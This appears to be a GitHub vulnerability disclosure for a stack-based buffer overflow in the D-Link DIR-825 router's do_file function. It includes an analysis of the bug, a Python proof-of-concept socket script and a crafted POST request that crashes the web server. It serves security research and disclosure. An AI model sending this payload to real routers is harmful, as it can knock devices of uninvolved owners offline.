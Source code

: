 # Overview
Details of the vulnerability found in the dlink router dir-825.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-825    |  REVB_FIRMWARE_2.03    | https://legacyfiles.us.dlink.com/DIR-825/REVB/FIRMWARE/DIR-825_REVB_FIRMWARE_2.03.ZIP   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `do_file` at offset 00407E88, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program processes a POST request from the user. It attempts to locate a corresponding file under the www directory; however, when constructing the file name, it uses the unsafe `strcat` function for string concatenation. The destination buffer can hold at most 34 bytes of data. Therefore, when the POST request exceeds 34 bytes, a stack-based buffer overflow can occur. A specially crafted POST request can be used to trigger this vulnerability..
![second](./assets/2.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /�)gpo|connect.cgi*oP|�*con||||.cgi*oP|||||||||||||||nd_*.gif 
```

# Vulnerability Verification Screenshot
##  dir-825
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
